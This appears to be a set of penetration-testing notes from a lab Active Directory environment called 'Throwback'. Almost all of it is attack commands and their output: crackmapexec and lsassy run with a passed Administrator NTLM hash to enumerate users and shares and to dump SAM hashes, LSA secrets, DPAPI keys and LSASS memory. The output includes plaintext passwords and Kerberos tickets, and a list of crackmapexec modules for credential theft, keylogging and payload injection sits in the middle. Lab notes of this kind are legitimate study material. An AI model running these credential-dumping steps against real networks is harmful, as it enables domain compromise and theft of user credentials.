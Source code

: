 1. Enumerating Users
```
proxychains crackmapexec smb 10.200.34.219 -u 'Administrator' -H 'a06e58d15a2585235d18598788b8147a' --users

SMB         10.200.34.219   445    THROWBACK-PROD   [+] Enumerated domain user(s)
SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK.local\admin-petersj                  Local admin account for Jon
SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK.local\Administrator                  Built-in account for administering the computer/domain
SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK.local\DefaultAccount                 A user account managed by the system.
SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK.local\Guest                          Built-in account for guest access to the computer/domain
SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK.local\sshd                           
SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK.local\WDAGUtilityAccount             A user account managed and used by the system for Windows Defender Application Guard scenarios.
```

2. Enumerating Groups
```
Not found/Unable to do it
```

3. Enumerating Shares
```
proxychains crackmapexec smb 10.200.34.219 -u 'Administrator' -H 'a06e58d15a2585235d18598788b8147a' --shares

SMB         10.200.34.219   445    THROWBACK-PROD   [+] Enumerated shares
SMB         10.200.34.219   445    THROWBACK-PROD   Share           Permissions     Remark
SMB         10.200.34.219   445    THROWBACK-PROD   -----           -----------     ------
SMB         10.200.34.219   445    THROWBACK-PROD   ADMIN$          READ,WRITE      Remote Admin
SMB         10.200.34.219   445    THROWBACK-PROD   C$              READ,WRITE      Default share
SMB         10.200.34.219   445    THROWBACK-PROD   IPC$            READ            Remote IPC
SMB         10.200.34.219   445    THROWBACK-PROD   Users           READ,WRITE      
```

4. Dumping SAM hashes
```
proxychains crackmapexec smb 10.200.34.219 -u 'Administrator' -H 'a06e58d15a2585235d18598788b8147a' --sam

SMB         10.200.34.219   445    THROWBACK-PROD   [+] Dumping SAM hashes

SMB         10.200.34.219   445    THROWBACK-PROD   Administrator:500:aad3b435b51404eeaad3b435b51404ee:a06e58d15a2585235d18598788b8147a:::

SMB         10.200.34.219   445    THROWBACK-PROD   Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

SMB         10.200.34.219   445    THROWBACK-PROD   DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

SMB         10.200.34.219   445    THROWBACK-PROD   WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::

SMB         10.200.34.219   445    THROWBACK-PROD   sshd:1009:aad3b435b51404eeaad3b435b51404ee:fe2acb5ea93988befc849a6981e0526a:::

SMB         10.200.34.219   445    THROWBACK-PROD   admin-petersj:1010:aad3b435b51404eeaad3b435b51404ee:74fb0a2ee8a066b1e372475dcbc121c5:::

```

5. Dumping LSA secrets
```
proxychains crackmapexec smb 10.200.34.219 -u 'Administrator' -H 'a06e58d15a2585235d18598788b8147a' --lsa

SMB         10.200.34.219   445    THROWBACK-PROD   [+] Dumping LSA secrets

SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK.LOCAL/Administrator:$DCC2$10240#Administrator#94b4b0be8963853c02b3c81fefd3a458

SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK.LOCAL/WEBService:$DCC2$10240#WEBService#4f10bc32bc69e5b950113494fddfaa39

SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK.LOCAL/spooks:$DCC2$10240#spooks#6bdfcca7cc64eaa531a5bf146388b020

SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK.LOCAL/PetersJ:$DCC2$10240#PetersJ#c89815e19988e5d91f20ad66acaa77ac

SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK.LOCAL/BlaireJ:$DCC2$10240#BlaireJ#e84cb4c5d143be7158bd6628e89a2cf3

SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK\THROWBACK-PROD$:aes256-cts-hmac-sha1-96:2316a23add1e45ac2bb3bcf30330ded58d73cc4627a1096823d5080c0671cdb4

SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK\THROWBACK-PROD$:aes128-cts-hmac-sha1-96:1b37a36a74ceee1b8797e86ecadde3b0

SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK\THROWBACK-PROD$:des-cbc-md5:1fc4fec7ab9d2f16

SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK\THROWBACK-PROD$:plain_password_hex:63e1576036b81e0813bbcbb2b106c58703c79c4bd81e2a60c2ef9dbd0b38d1827905b29f9d7389fc160569bc4ec63b23f7bf2bc1058dc9414325f16cb6266ee367fead794bf3205652a83e2aa4bc3c0e447096e5020f946bd0f5932be4e27a8a97c00288cb66346ff854d996f42d49061ed30eff3e381a424704d830213f47a100aaa42db2be55bbf4023cd5ae4c3265be6cd723fcb785b3df7d06628ba9f6dae84fa67e1674db6758f31f85d97ef59eb91b1159d0f1a2811369b7e3c10d0267ada28851cbec6a2fb290c59606098c79fe79461a9a491ea3a5648d4f475e55870c87c4425335633ccd815b6d3f338e79                                                                                                                                

SMB         10.200.34.219   445    THROWBACK-PROD   THROWBACK\THROWBACK-PROD$:aad3b435b51404eeaad3b435b51404ee:fbd5e3af4ec1d8b1c8a4303795fbe8e8:::

SMB         10.200.34.219   445    THROWBACK-PROD   dpapi_machinekey:0x6ec76b4abb51d3b2112cd9d388159f9b1f48fcdc
dpapi_userkey:0x08dfdae23d83f9d59fdcb12b004fc943a0463974                                                                                                                                                                                   

SMB         10.200.34.219   445    THROWBACK-PROD   NL$KM:8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2

SMB         10.200.34.219   445    THROWBACK-PROD   [+] Dumped 12 LSA secrets to /root/.cme/logs/THROWBACK-PROD_10.200.34.219_2022-10-14_231001.secrets and /root/.cme/logs/THROWBACK-PROD_10.200.34.219_2022-10-14_231001.cached

```

6. Modules of #Crackmapexec 

[*] Get-ComputerDetails       Enumerates sysinfo
[*] bh_owned                  Set pwned computer as owned in Bloodhound
[*] bloodhound                Executes the BloodHound recon script on the target and retreives the results to the attackers' machine
[*] drop-sc                   Drop a searchConnector-ms file on each writable share
[*] empire_exec               Uses Empire's RESTful API to generate a launcher for the specified listener and executes it
[*] enum_avproducts           Gathers information on all endpoint protection solutions installed on the the remote host(s) via WMI
[*] enum_chrome               Decrypts saved Chrome passwords using Get-ChromeDump
[*] enum_dns                  Uses WMI to dump DNS from an AD DNS Server
[*] get_keystrokes            Logs keys pressed, time and the active window
[*] get_netdomaincontroller   Enumerates all domain controllers
[*] get_netrdpsession         Enumerates all active RDP sessions
[*] get_timedscreenshot       Takes screenshots at a regular interval
[*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password.
[*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
[*] handlekatz                Get lsass dump using handlekatz64 and parse the result with pypykatz
[*] invoke_sessiongopher      Digs up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher
[*] invoke_vnc                Injects a VNC client in memory
[*] ioxidresolver             Thie module helps you to identify hosts that have additional active interfaces
[*] met_inject                Downloads the Meterpreter stager and injects it into memory
[*] mimikatz                  Dumps all logon credentials from memory
[*] mimikatz_enum_chrome      Decrypts saved Chrome passwords using Mimikatz
[*] mimikatz_enum_vault_creds Decrypts saved credentials in Windows Vault/Credential Manager
[*] mimikittenz               Executes Mimikittenz
[*] ms17-010                  MS17-010, /!\ not tested oustide home lab
[*] multirdp                  Patches terminal services in memory to allow multiple RDP users
[*] nanodump                  Get lsass dump using nanodump and parse the result with pypykatz
[*] netripper                 Capture's credentials by using API hooking
[*] nopac                     Check if the DC is vulnerable to CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user
[*] pe_inject                 Downloads the specified DLL/EXE and injects it into memory
[*] petitpotam                Module to check if the DC is vulnerable to PetitPotam, credit to @topotam
[*] procdump                  Get lsass dump using procdump64 and parse the result with pypykatz
[*] rdp                       Enables/Disables RDP
[*] rid_hijack                Executes the RID hijacking persistence hook.
[*] runasppl                  Check if the registry value RunAsPPL is set or not
[*] scuffy                    Creates and dumps an arbitrary .scf file with the icon property containing a UNC path to the declared SMB server against all writeable shares
[*] shellcode_inject          Downloads the specified raw shellcode and injects it into memory
[*] slinky                    Creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions
[*] spider_plus               List files on the target server (excluding `DIR` directories and `EXT` extensions) and save them to the `OUTPUT` directory if they are smaller then `SIZE`
[*] spooler                   Detect if print spooler is enabled or not
[*] test_connection           Pings a host
[*] tokens                    Enumerates available tokens
[*] uac                       Checks UAC status
[*] wdigest                   Creates/Deletes the 'UseLogonCredential' registry key enabling WDigest cred dumping on Windows >= 8.1
[*] web_delivery              Kicks off a Metasploit Payload using the exploit/multi/script/web_delivery module
[*] webdav                    Checks whether the WebClient service is running on the target
[*] wireless                  Get key of all wireless interfaces
[*] zerologon                 Module to check if the DC is vulnerable to Zerologon aka CVE-2020-1472

7. Dumping LSASS
```
proxychains lsassy -d THROWBACK.local -u Administrator -H a06e58d15a2585235d18598788b8147a 10.200.34.219

[+] 10.200.34.219 THROWBACK\BlaireJ                                          [NT] c374ecb7c2ccac1df3a82bce4f80bb5b | [SHA1] 6522277853426f24275c4c0b0381458ef452e640

[+] 10.200.34.219 THROWBACK.LOCAL\BlaireJ                                    [PWD] 7eQgx6YzxgG3vC45t5k9

[+] 10.200.34.219 THROWBACK\THROWBACK-PROD$                                  [NT] fbd5e3af4ec1d8b1c8a4303795fbe8e8 | [SHA1] f3455e303d91645c64fe9a5a1ab02e0038f82acc

[+] 10.200.34.219 THROWBACK.local\THROWBACK-PROD$                            [PWD] 63e1576036b81e0813bbcbb2b106c58703c79c4bd81e2a60c2ef9dbd0b38d1827905b29f9d7389fc160569bc4ec63b23f7bf2bc1058dc9414325f16cb6266ee367fead794bf3205652a83e2aa4bc3c0e447096e5020f946bd0f5932be4e27a8a97c00288cb66346ff854d996f42d49061ed30eff3e381a424704d830213f47a100aaa42db2be55bbf4023cd5ae4c3265be6cd723fcb785b3df7d06628ba9f6dae84fa67e1674db6758f31f85d97ef59eb91b1159d0f1a2811369b7e3c10d0267ada28851cbec6a2fb290c59606098c79fe79461a9a491ea3a5648d4f475e55870c87c4425335633ccd815b6d3f338e79                                                                                                                                              

[+] 10.200.34.219 THROWBACK-PROD\admin-petersj                               [NT] 74fb0a2ee8a066b1e372475dcbc121c5 | [SHA1] ae40d7644fc099822b85ce01185468a35b5a16b1

[+] 10.200.34.219 THROWBACK-PROD\Administrator                               [NT] a06e58d15a2585235d18598788b8147a | [SHA1] 4e40938facb10fb6aa244240301b791a0454f328

[+] 10.200.34.219 THROWBACK-PROD\admin-petersj                               [PWD] SinonFTW123!

[+] 10.200.34.219 Login\admin-petersj                                        [PWD] SinonFTW123!

[+] 10.200.34.219 THROWBACK-PROD\admin-petersj\THROWBACK-PROD\admin-petersj  [PWD] SinonFTW123!

[+] 10.200.34.219 THROWBACK.LOCAL\THROWBACK-PROD$                            [TGT] Domain: THROWBACK.LOCAL - End time: 2022-10-15 12:27 (TGT_THROWBACK.LOCAL_THROWBACK-PROD$_krbtgt_THROWBACK.LOCAL_86a3619a.kirbi)

[+] 10.200.34.219 THROWBACK.LOCAL\THROWBACK-PROD$                            [TGT] Domain: THROWBACK.LOCAL - End time: 2022-10-15 12:27 (TGT_THROWBACK.LOCAL_THROWBACK-PROD$_krbtgt_THROWBACK.LOCAL_64b6699d.kirbi)

[+] 10.200.34.219 THROWBACK.LOCAL\THROWBACK-PROD$                            [TGT] Domain: THROWBACK.LOCAL - End time: 2022-10-15 12:28 (TGT_THROWBACK.LOCAL_THROWBACK-PROD$_krbtgt_THROWBACK.LOCAL_f4dce6f0.kirbi)

[+] 10.200.34.219 THROWBACK.LOCAL\THROWBACK-PROD$                            [TGT] Domain: THROWBACK.LOCAL - End time: 2022-10-15 12:28 (TGT_THROWBACK.LOCAL_THROWBACK-PROD$_krbtgt_THROWBACK.LOCAL_101f080d.kirbi)

```

